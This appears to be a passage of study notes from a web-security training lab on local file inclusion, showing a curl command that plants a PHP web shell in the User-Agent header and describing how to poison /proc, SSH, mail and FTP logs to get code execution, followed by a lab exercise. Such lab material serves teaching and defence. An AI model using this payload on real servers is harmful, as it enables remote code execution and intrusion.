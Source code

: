 ```sh
echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison

```


> [!TIP]
> The user agent header is also show on process file uncer the LInux /proc/ dir. We can try Including the /proc/self/version or /proc/self/fd/N file les (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files.

The are other similar log Poisoning tech we may utillize depending of the system log:
1. /var/log/sshd.log
2. /var/log/mail
3. /var/log/vsftp.log
We should first attempt reading these logs through LFI, and if we do have access to them, we can try to poison them as we did above. For example, if the ssh or ftp services are exposed to us, and we can read their logs through LFI,
then we can try logging into them and set the username to PHP code, and upon including their logs, the PHP code would execute.

- Exercise:
Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd :

Try to use a different technique to gain RCE and read the flag at /
